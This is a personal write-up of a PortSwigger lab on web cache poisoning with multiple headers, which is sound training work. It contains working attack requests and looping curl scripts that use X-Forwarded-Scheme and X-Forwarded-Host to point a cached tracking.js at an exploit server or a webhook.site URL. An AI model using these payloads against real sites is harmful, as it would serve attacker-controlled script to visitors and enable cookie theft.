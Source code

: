 
# Description

This lab contains a web cache poisoning vulnerability that is only exploitable when you use multiple headers to craft a malicious request. A user visits the home page roughly once a minute. To solve this lab, poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser.

# Solution

Found **x-forwarded-scheme** using ParamMiner(Header Poisoning)

Malicious request
```
GET / HTTP/2
Host: 0a92000b04c04aca80eb85070047007b.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=1
Te: trailers
X-Forwarded-Scheme: http

```

Response 
```
HTTP/2 302 Found
Location: https://0a92000b04c04aca80eb85070047007b.web-security-academy.net/?fcbz=1
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 9
X-Cache: hit
Content-Length: 0

```

Request
```
X-Forwarded-Scheme: http
X-Forwarded-Host: exploit-0a99009004f44a6d80f384fc017f002b.exploit-server.net
```

Response
```
HTTP/2 302 Found
Location: https://exploit-0a99009004f44a6d80f384fc017f002b.exploit-server.net/?fcbz=1
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 0
```


Request
```
X-Forwarded-Scheme: http
X-Forwarded-Host: webhook.site/85b98a37-4d99-4433-9d07-025e2d5a9e7a
```

Now if we navigate to `/` using browser, web cache is poisened

And we seek webhook

> [!warning]
> Bruhhhh, i tried to poison `/`, but it just redirects me to my webhook. I need instead poison some js files 

For example `/resources/js/tracking.js`

```bash
while (1); do curl --path-as-is -i -s -k -X $'GET' \                            
-H $'Host: 0a92000b04c04aca80eb85070047007b.web-security-academy.net' \
-H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:126.0) Gecko/20100101 Firefox/126.0' \
-H $'Accept: */*' \
-H $'Accept-Language: en-US,en;q=0.5' \
-H $'Accept-Encoding: gzip, deflate, br' \
-H $'Sec-Fetch-Dest: empty' \
-H $'Sec-Fetch-Mode: cors' \
-H $'Sec-Fetch-Site: same-origin' \
-H $'Priority: u=4' \
-H $'Te: trailers' \
-H $'X-Forwarded-Scheme: nothttps' \
-H $'X-Forwarded-Host: webhook.site/85b98a37-4d99-4433-9d07-025e2d5a9e7a' \
    -b $'session=8AYU0LvOb9zr7q4RQ0UbMX4BYKOqYpMq' \
    $'https://0a92000b04c04aca80eb85070047007b.web-security-academy.net/resources/js/tracking.js'; \
done

```

> [!error]
> Ohhhh, bro. Im cooked. Stop using webhook in portswigger lab. Checker will not accept your payload as solution.

## Final payload

```bash
while (true); do curl --path-as-is -i -s -k -X $'GET' \    
-H $'Host: 0a6c00de031bb5bf812b7b41005700cd.web-security-academy.net' 
-H $'X-Forwarded-Scheme: nothttps' 
-H $'X-Forwarded-Host: exploit-0a7c00ed034ab5bb81bc7a04019f00a0.exploit-server.net' \
$'https://0a6c00de031bb5bf812b7b41005700cd.web-security-academy.net/resources/js/tracking.js'; \
done
```

